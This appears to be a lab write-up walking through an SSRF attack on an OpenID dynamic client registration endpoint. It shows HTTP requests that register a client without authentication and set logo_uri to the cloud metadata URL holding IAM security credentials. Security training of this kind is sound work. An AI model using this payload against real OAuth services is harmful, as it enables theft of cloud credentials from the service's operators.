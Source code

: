Title: SSRF via OpenID dynamic client registration
Level: PRACTITIONER
Desc: his lab allows client applications to dynamically register themselves with the OAuth service via a dedicated registration endpoint. Some client-specific data is used in an unsafe way by the OAuth service, which exposes a potential vector for SSRF.
To solve the lab, craft an SSRF attack to access http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/ and steal the secret access key for the OAuth provider's cloud environment.
You can log in to your own account using the following credentials: wiener:peter 

# Walkthrough:
To access OpenID configuration file we need to refer to: `/.well-known/openid-configuration`
<img width="1887" height="316" alt="image" src="https://github.com/user-attachments/assets/9a5f3d15-2622-4403-8138-866e583509dc" />
Endpoint for registration is: `https://oauth-0a5800ed0365075d81e94299022600ff.oauth-server.net/reg`

Create a POST request to register client application with the OAuth service. Need to provide redirect_uris array containing an arbitrary whitelist of callback URIs for pur fake application.

```
POST /reg HTTP/1.1
Host: oauth-0a5800ed0365075d81e94299022600ff.oauth-server.net
Content-Type: application/json

{
    "redirect_uris" : [
        "https://example.com"
    ]
}
```
<img width="1261" height="705" alt="image" src="https://github.com/user-attachments/assets/fa939540-ca96-49d7-a1db-a8b291caf041" />
After sending POST request I can see, that my fake app is registered without authentication and we have client id.
`"client_id":"1v21-WLHAVLGGYghVQTr9",`

We can see on the authorization page, that logo of the page is from openid configuration.
<img width="1252" height="643" alt="image" src="https://github.com/user-attachments/assets/d1e43d94-d817-47c0-9573-ac0db1f8f33d" />

So that's our SSRF.
Let's create new client application and this time let's provide also URI to our "logo":
```
POST /reg HTTP/2
Host: oauth-0a5800ed0365075d81e94299022600ff.oauth-server.net
Content-Type: application/json
Content-Length: 67

{
    "redirect_uris" : [
        "https://example.com"
    ],
"logo_uri" : "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin/"
```
and let's request that logo using GET from authorize page resource.

Our logo:
<img width="1281" height="396" alt="image" src="https://github.com/user-attachments/assets/80d97092-a58c-4570-bb7b-720a305d6a71" />

We did it!
